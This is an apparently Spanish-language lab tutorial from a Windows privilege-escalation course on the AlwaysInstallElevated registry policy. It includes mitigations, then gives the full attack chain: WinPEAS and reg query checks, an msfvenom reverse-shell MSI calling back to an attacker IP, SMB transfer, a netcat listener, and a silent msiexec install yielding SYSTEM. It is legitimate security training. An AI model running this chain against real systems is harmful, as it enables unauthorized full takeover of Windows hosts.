





> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]

---
# Registro: AlwaysInstallElevated

# 📦 Registro - AlwaysInstallElevated

 
 

## 📖 ENUNCIADO (DESCRIPCIÓN)

 

### 📋 Explotación de Registros en Windows

 

El registro de Windows es una base de datos jerárquica que almacena configuraciones y opciones del sistema operativo, así como información sobre usuarios y aplicaciones. Los atacantes pueden buscar vulnerabilidades en el registro que les permitan modificar valores o configuraciones clave para elevar sus privilegios.

 

### 🎯 Métodos de Explotación del Registro

 

Algunos métodos para elevar privilegios a través del registro son:

 

> [!warning]
> 
 
> #### ⚠️ Técnicas de Explotación del Registro:
> 

> 

> 
> * 
> **Manipulación de permisos de registro:** Los registros de Windows contienen claves y valores que definen configuraciones y políticas del sistema. Algunas claves de registro pueden contener información sensible o configuraciones de seguridad que, si se manipulan, pueden permitir a un atacante elevar sus privilegios.
> 
 
> * 
> **Inyección de datos en registros de aplicaciones:** Algunas aplicaciones utilizan registros para almacenar datos, como configuraciones de usuario o rutas de archivos. Si un atacante puede inyectar datos maliciosos en una clave de registro de una aplicación vulnerable, podría engañar a la aplicación para que ejecute código malicioso con privilegios elevados cuando se inicie.
> 
 
> * 
> **Uso de claves de registro de inicio automático (autorun):** El registro de Windows contiene claves que definen qué programas y servicios se ejecutan automáticamente al iniciar el sistema operativo. Los atacantes pueden aprovechar estas claves de inicio automático para ejecutar su propio código malicioso al arrancar el sistema.
> 
 
> * 
> **AlwaysInstallElevated:** Es una configuración del registro de Windows que puede tener un impacto en la escalada de privilegios en ciertos escenarios. Esta configuración se encuentra en la siguiente clave de registro:
> 
> ```
> HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
> ```
> 
 
> Cuando se establece el valor de "AlwaysInstallElevated" en **1** en esta ubicación, se permite la instalación elevada de programas de Windows Installer (.msi) incluso para usuarios sin privilegios administrativos. Por lo tanto, los usuarios estándar pueden instalar programas con privilegios elevados sin necesidad de autenticación adicional.
> 

> 

 

> [!note]
> 
 
> #### 💡 ¿Qué es AlwaysInstallElevated?
> 
 
> **AlwaysInstallElevated** es una política de grupo que, cuando está habilitada, permite a usuarios sin privilegios de administrador instalar paquetes MSI (Microsoft Installer) con privilegios elevados (SYSTEM).
> 
> **Para que esta vulnerabilidad sea explotable, AMBAS claves de registro deben estar configuradas en 1:**
> 

> 
> * `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1` (Máquina local)
> 
> * `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1` (Usuario actual)
> 

> 
> Si ambas están habilitadas, cualquier usuario puede crear un paquete MSI malicioso que se ejecutará con privilegios de SYSTEM al instalarlo.
> 

 

### 🛡️ Protección contra Explotación del Registro

 

Para protegerse contra estos métodos de explotación de registros y la escalada de privilegios en Windows, se recomienda seguir buenas prácticas de seguridad, como:

 

> [!tip]
> 
 
> #### ✅ Buenas Prácticas de Seguridad:
> 
 

> 
> * Mantener el sistema operativo y las aplicaciones actualizadas con los últimos parches de seguridad.
> 
> * Utilizar software de seguridad, como antivirus y cortafuegos, para detectar y bloquear posibles amenazas.
> 
> * Aplicar el principio de menor privilegio, es decir, ejecutar programas y procesos con los privilegios mínimos necesarios para realizar su función.
> 
> * Limitar el acceso a las claves de registro y configurar correctamente los permisos de seguridad para prevenir la manipulación no autorizada.
> 
> * Utilizar cuentas de usuario con derechos limitados en lugar de cuentas de administrador para tareas diarias.
> 
> * **Nunca habilitar AlwaysInstallElevated** en entornos de producción.
> 

> 

 

 
 

## 🔍 Descubriendo la Vulnerabilidad - AlwaysInstallElevated

 

### 🛠️ Paso 1: Ejecutar WinPEAS

 

Vamos a usar **WinPEAS** para ver si hay vulnerabilidades en la configuración del registro.

 



 

### 📤 Paso 2: Enviar Resultados a Kali por SMB

 

Si queremos podemos enviarlo directamente a nuestra Kali por SMB:

 

```cmd
C:\tools> winPEASany.exe quiet windowscreds >> \\10.0.0.5\info\winpwadCreds.txt
```

 

### 📊 Paso 3: Analizar los Resultados

 

Vemos el documento txt que hemos recibido y observamos lo siguiente respecto a **AlwaysInstallElevated**:

 



 

> [!warning]
> 
 
> **⚠️ Importante:**
> 
> WinPEAS ha detectado que **AlwaysInstallElevated está habilitado**. Esto significa que podemos instalar paquetes MSI con privilegios de SYSTEM sin ser administradores.
> 

 

### 📋 Paso 4: Verificación Manual del Registro

 

Otra forma de comprobarlo es manualmente chequeando las entradas de registro:

 

```cmd
C:\tools> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

C:\tools> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

 



 

> [!tip]
> 
 
> #### 🔍 Interpretación de los Resultados:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> `HKLM\...\AlwaysInstallElevated`
> 
> **0x1 (1)**
> 
> 
> `HKCU\...\AlwaysInstallElevated`
> 
> **0x1 (1)**
> 
> 
> 
> | Clave de Registro | Alcance | Valor Necesario |
> | --- | --- | --- |
> | | Máquina completa (todos los usuarios) | |
> | | Usuario actual | |
> 
 
> **Si AMBAS claves tienen el valor 1 (0x1), el sistema es vulnerable.**
> 
> Tipo de dato: `REG_DWORD` (número entero de 32 bits)
> 

 

 
 

## 💥 Explotando la Vulnerabilidad - AlwaysInstallElevated

 

### 🔨 Paso 1: Crear Paquete MSI Malicioso con msfvenom

 

Con **msfvenom** creamos nuestro archivo MSI malicioso:

 

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 --platform windows -f msi -o reverse.msi
```

 



 

> [!note]
> 
 
> #### 🔧 Explicación de los Parámetros:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `-p windows/x64/shell_reverse_tcp`
> 
> 
> 
> `LHOST=10.0.0.5`
> 
> 
> 
> `LPORT=443`
> 
> 
> 
> `--platform windows`
> 
> 
> 
> `-f msi`
> 
> 
> 
> `-o reverse.msi`
> 
> 
> 
> 
> | Parámetro | Descripción |
> | --- | --- |
> | | Payload de shell inversa para Windows 64 bits |
> | | IP de Kali Linux (atacante) |
> | | Puerto de escucha |
> | | Plataforma objetivo |
> | | Formato de salida: archivo MSI (Microsoft Installer) |
> | | Nombre del archivo de salida |
> 
 

 

### 📤 Paso 2: Transferir el MSI a Windows

 

Lo pasamos a la máquina de Windows 10:

 

**En Kali:**
 

```bash
$ impacket-smbserver info. -smb2support
```

 

**En Windows:**
 

```cmd
C:\tools> copy \\10.0.0.5\info\reverse.msi.\
```

 

### 🎧 Paso 3: Configurar Listener en Kali

 

Por último, iniciamos la escucha en Kali:

 

```bash
$ nc -lvnp 443
```

 

### 🚀 Paso 4: Ejecutar el Archivo MSI

 

Y ejecutamos el archivo MSI de la siguiente forma:

 

```cmd
C:\tools> msiexec /quiet /qn /i reverse.msi
```

 

> [!tip]
> 
 
> #### 🔧 Parámetros de msiexec:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `msiexec`
> 
> 
> 
> `/quiet`
> 
> 
> 
> `/qn`
> 
> 
> 
> `/i`
> 
> 
> 
> `reverse.msi`
> 
> 
> 
> 
> | Parámetro | Descripción |
> | --- | --- |
> | | Herramienta de instalación de Windows Installer |
> | | Modo silencioso (sin interfaz gráfica) |
> | | No mostrar ninguna interfaz de usuario |
> | | Instalar el paquete MSI |
> | | Archivo MSI a instalar |
> 
 
> **Alternativa sin modo silencioso:**
> 
> ```cmd
> C:\tools> msiexec /i reverse.msi
> ```
> 
 
> Esto mostrará el asistente de instalación, pero sigue ejecutándose con privilegios elevados.
> 

 

### ✅ Paso 5: Recibir la Shell en Kali

 

Y obtendremos la conexión con privilegios de **NT AUTHORITY\SYSTEM**:

 



 

> [!tip]
> 
 
> #### 🎉 ¡Éxito!
> 
 
> Gracias a AlwaysInstallElevated, el paquete MSI se instaló con privilegios de **NT AUTHORITY\SYSTEM**, el nivel más alto de privilegios en Windows.
> 
> Verificar privilegios:
> 
> ```cmd
> C:\> whoami
> NT AUTHORITY\SYSTEM
> 
C:\> whoami /priv
> ```
> 
 
> **Ventaja de esta técnica:** No necesitamos permisos de escritura sobre ningún archivo existente ni esperar a que un administrador inicie sesión. La instalación se ejecuta inmediatamente con privilegios máximos.
> 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ AlwaysInstallElevated permite a usuarios sin privilegios instalar MSI con privilegios elevados
> 
> * ✅ Requiere que AMBAS claves de registro (HKLM y HKCU) estén configuradas en 1
> 
> * ✅ WinPEAS detecta automáticamente si esta política está habilitada
> 
> * ✅ Podemos verificar manualmente con `reg query`
> 
> * ✅ msfvenom puede generar paquetes MSI maliciosos
> 
> * ✅ El comando `msiexec` instala paquetes MSI
> 
> * ✅ La instalación se ejecuta con privilegios de NT AUTHORITY\SYSTEM
> 
> * ✅ Esta es una técnica directa y rápida de escalada de privilegios
> 

> 
 
> ### 🔄 Flujo del Ataque:
> 
 

> [!note]
> 
 
> 
 **WinPEAS/reg query** → 
> **Verificar AlwaysInstallElevated** → 
> **Crear MSI malicioso (msfvenom)** → 
> **Transferir a Windows** → 
> **Instalar con msiexec** → 
> **Shell con privilegios SYSTEM**
> 
> 

> 
 
> ### 🔑 Conceptos Clave:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **AlwaysInstallElevated**
> 
> 
> 
> **MSI**
> 
> 
> 
> **msiexec**
> 
> 
> 
> **HKLM**
> 
> 
> 
> **HKCU**
> 
> 
> 
> **REG_DWORD**
> 
> 
> 
> 
> | Concepto | Descripción |
> | --- | --- |
> | | Política que permite instalaciones MSI con privilegios elevados |
> | | Microsoft Installer - formato de paquete de instalación de Windows |
> | | Herramienta de línea de comandos para instalar paquetes MSI |
> | | HKEY_LOCAL_MACHINE - configuración de toda la máquina |
> | | HKEY_CURRENT_USER - configuración del usuario actual |
> | | Tipo de dato del registro (número entero 32 bits) |
> 

> 
> ### 📂 Claves de Registro AlwaysInstallElevated:
> 
 

> [!note]
> 
 
> ```bash
> # Verificar si está habilitado (AMBAS deben estar en 1)
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
> 
# Resultado vulnerable:
> # HKLM\...\AlwaysInstallElevated REG_DWORD 0x1
> # HKCU\...\AlwaysInstallElevated REG_DWORD 0x1
> ```
> 
 

> 
 
> ### ⚖️ Comparación con Otras Técnicas:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **Requisito**
> 
> 
> 
> 
> 
> **Velocidad**
> 
> 
> 
> 
> 
> **Privilegios**
> 
> 
> 
> 
> 
> **Detección**
> 
> 
> 
> 
> 
> 
> | Aspecto | AlwaysInstallElevated | Autorun | Weak Registry |
> | --- | --- | --- | --- |
> | | Política habilitada en registro | Permisos sobre ejecutable de autorun | Permisos sobre clave de registro del servicio |
> | | ⚡ Inmediata | ⏳ Espera login de usuario | ⚡ Al iniciar servicio |
> | | 🟢 SYSTEM (máximo) | 🟡 Depende del usuario | 🟢 Depende del servicio (normalmente SYSTEM) |
> | | Fácil (reg query) | Media (requiere análisis) | Media (requiere análisis) |
> 

> 
> ### 🎯 Navegación:
> 
 
> ← Práctica 04-01: Registro - Autorun
> 
> → Práctica 05-01: Contraseñas - Registro
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]
